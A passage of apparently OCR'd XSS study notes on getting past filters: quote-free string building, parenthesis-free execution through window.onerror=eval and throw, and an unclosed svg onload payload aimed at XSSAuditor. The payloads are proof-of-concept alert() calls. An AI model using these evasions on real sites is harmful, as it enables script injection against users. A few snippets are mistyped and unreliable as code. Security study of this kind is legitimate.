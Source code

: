 ```js
/your string/.source  //space allowed
43804..toString(36)   //spaces not allowed in Base36
```

Using unescape method:
```js
unescape(/%78%u0073%73/.source) //its deprecated
```

Using decodeURI and decodeURIComponent:
```js
# in this case, characters needs to be URL-encoded to avoid URI malformed errors

decodeURI(/alert(%22xss%22)/.source)
decodeURIcomponent(/alert(%22xss%22)/.source)
```

- These methods could be useful if you can inject into a script or event handler. nut you cannot use quotation marks because they are properly escaped.
- Dont forget that each of them will return a string, so you need an execution **sink** to trigger the code (IE: **eval**)


### Escaping Parentheses
- The technique abuses the onerror handler, assigning a function to call once an error has been generated using throw followed by the arguments to the function assigned to the error handler.

→ moreover: http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/

```js
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
# eval - function to invoke in case of error
# throw - generate the error
# alert... - parameters For the error function

onerror=alert;throw 1; // a simple version
# does not work in Firefox and IE
```

And since the arguments section is quoted, its possible to do some encoding like the following:
```js
<img src=x onerror="window.onerror=eval;throw'\u003d&#x006C;ert&#x0028;18#41;'"/>
```





## Bypassing Browser Filters
They dont cover all possible XSS attacl scenarios and they focus on Reflected type of XSS.

### UnFiltered Scenarios - Injecting Inside HTML Tag
```js
<svg/onload=alert(1)> # its detected by all main filters
```

```js
# Just by removing the final (>) we jave a bypass For browsers with XSSAuditor
<svg/onload=alert(1) // works chromium based browser
```
